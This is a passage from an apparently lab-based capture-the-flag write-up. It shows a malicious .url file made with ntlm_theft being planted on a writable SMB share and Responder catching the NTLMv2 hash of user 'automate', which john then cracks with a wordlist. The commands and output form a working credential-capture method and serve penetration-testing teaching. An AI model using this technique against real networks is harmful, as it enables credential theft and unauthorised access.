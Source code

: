 We notice that the files in the share are constantly changing.

```console
smb: \> dir onboarding\
  .                                   D        0  Fri Jan 26 23:59:35 2024
  ..                                  D        0  Fri Jan 26 23:59:35 2024
  kcx1ybn2.geq.pdf                    A  4700896  Mon Jul 17 09:11:53 2023
  pmojorqn.2xj.pdf                    A  3032659  Mon Jul 17 09:12:09 2023
  vc4il3jf.h0f.txt                    A      521  Mon Aug 21 19:21:59 2023

                7863807 blocks of size 4096. 2987708 blocks available
```

## Shell as automate

### Forced authentication to capture the hash

Since we know there is activity in the share, we can try dropping a file to the share that will force the user to authenticate to our server when a user browses the share.

Using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) to create a malicious `.url` file.

```console
$ python3 ntlm_theft.py -g url -s 10.11.63.57 -f test
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Generation Complete.
```

Running responder to spin up a server that will respond to the authentication requests made.
```console
$ sudo responder -I tun0
```

Uploading the generated file to the `\Data\onboarding` share.

```console
smb: \> cd onboarding\
smb: \onboarding\> put "test-(icon).url"
putting file test-(icon).url as \onboarding\test-(icon).url (0.4 kb/s) (average 0.3 kb/s)
```

After some time, we get the hash for `automate`.
```console
[SMB] NTLMv2-SSP Client   : 10.10.220.239
[SMB] NTLMv2-SSP Username : THM\AUTOMATE
[SMB] NTLMv2-SSP Hash     : AUTOMATE::THM:[REDACTED]
```
### Cracking the hash

Using `john` to crack the captured hash, we get the password for `automate`.

```console
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt                       
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]        (AUTOMATE)     
1g 0:00:00:00 DONE (2024-01-27 00:13) 2.040g/s 463934p/s 463934c/s 463934C/s SOCCER2..920227
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```
